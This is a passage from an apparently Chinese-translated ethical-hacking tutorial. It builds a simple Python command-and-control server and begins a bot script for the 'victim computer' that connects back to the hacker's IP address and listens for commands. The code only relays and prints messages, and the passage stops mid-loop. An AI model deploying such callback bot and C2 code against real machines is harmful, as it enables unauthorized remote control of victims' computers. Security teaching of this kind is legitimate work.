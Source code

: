run_bot = True

while run_bot:

msg = input("[+] 输入消息：")

msg = msg.encode()

bot.send(msg)

if msg.decode() == "exit":

run_bot = False

status = bot.recv(1024)

if status == "disconnected".encode():

bot.close()

clients.remove(bot)

print("数据已发送")

else:

print("[+] 没有客户端连接")

ans = input("[+] 你想退出吗？按[y/n] ")

if ans == "y":

run_cnc = False

else:

run_cnc = True

现在我们已经为命令与控制中心定义了一个基本结构。完整的机器人代码可以在以下链接找到：

[`github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example13-CNC/CnC.py`](https://github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example13-CNC/CnC.py)

接下来，我们将定义我们的机器人逻辑。

进入受害者计算机并创建一个名为**bot1.py**的新文件。我们将创建一个套接字对象，并尝试使用黑客的 IP 与黑客进行通信。这个步骤类似于我们之前开发的恶意软件程序：

import socket

if __name__ == "__main__":

print("[+] 正在连接服务器")

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect(("192.168.0.11", 8085))

接下来，我们将为**run_bot**创建一个循环，尝试接收 CNC 发送的消息。一旦消息接收，我们可以在这里定义自己的逻辑。这里我们仅打印消息，但你可以根据需要添加功能。一旦 CNC 发送退出消息，我们可以简单地将客户端机器人从服务器中断开。代码如下：

run_bot = True

while run_bot:

communicate_bot = True
